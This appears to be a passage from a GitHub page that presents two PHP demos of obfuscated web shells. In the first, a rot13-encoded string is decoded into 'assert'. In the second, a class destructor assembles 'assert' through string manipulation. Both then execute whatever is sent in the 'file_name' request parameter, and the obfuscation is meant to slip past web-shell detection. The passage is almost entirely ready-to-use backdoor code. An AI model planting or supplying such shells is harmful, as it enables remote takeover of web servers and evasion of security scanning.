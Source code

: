  - `Demo1`

```php
<?php
	highlight_file(__FILE__);
	class Zy76a {
	    function Ko97q($yyds) {
	        $wdnmd = str_rot13('n@ff@ndj@r@1214124@eg');
	        $wdnbd = explode('@', $wdnmd);
	        $s = $wdnbd[0].$wdnbd[1].$wdnbd[3].$wdnbd[5];
	        $s($yyds);
	    }
	}
	 
	$qqyyu = new Zy76a();
	$qqyyu->Ko97q($_REQUEST['file_name']);
?>
```

<div align=center><img src="./images/2.png"></div>

 - `Demo2`

```php
<?php
	highlight_file(__FILE__);
	class oopp {
		public $name;  

		public function __construct($name="") {   
	        $this->name = $name;
	    }

		public function __destruct() {
			$qwer = substr_replace("xxser", $this->name, -3);
			$rewq = array('', $qwer);
			$cdfr = $rewq[1].chr('116');
			$tryj = preg_replace("/xx/", "", $cdfr);
			$bbgu = substr_replace("", $tryj, 0);
			$yytr = $_REQUEST['file_name'];
	    	$bbgu($yytr);       
	    }
	}
	$test = new oopp("asser");
	unset($test);
?>
```
